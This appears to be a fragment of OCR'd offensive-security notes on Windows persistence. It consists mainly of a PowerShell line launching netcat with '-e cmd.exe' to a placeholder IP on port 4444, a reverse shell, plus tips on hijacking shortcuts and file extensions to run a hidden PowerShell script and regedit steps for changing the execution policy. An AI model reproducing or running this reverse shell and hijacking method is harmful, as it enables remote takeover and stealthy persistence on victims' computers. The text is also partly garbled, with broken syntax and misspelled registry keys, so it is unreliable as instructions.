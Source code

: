 
```PowerShell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe x.x.x.x 4444"
>c:\path\to\exe\in\shortcut
```

Actual shortcut.

powershell /window=style hidden c:\pathtoscript

Hijacking extensions.
You can hijack extensions in the same way with PowerShell then associate the extension with the PowerShell script.


1.  Hold down the **Windows Key**, then press “**R**” to bring up the Run window.
2.  Type “**regedit**“, then select “**OK**“:
3.  Navigate to the following:
    -   **HKEY_LOCAL_Machine**
    -   **SOFTWARE**
    -   **Microsoft**
    -   **PowerShell**
    -   **1**
    -   **Shelllds**
    -   **Microsoft.Powershell**
4.  Right-click the “**Microsoft.PowerShell**” folder, then select “**New**” > “**String value**“.
5.  Type “**ExecutionPolicy**“, then press “**Enter**” to set the string name.
6.  Open “**ExecutionPolicy**“, then type “**RemoteSigned**” in the “**Value data**” field.
7.  Select “**OK**“.


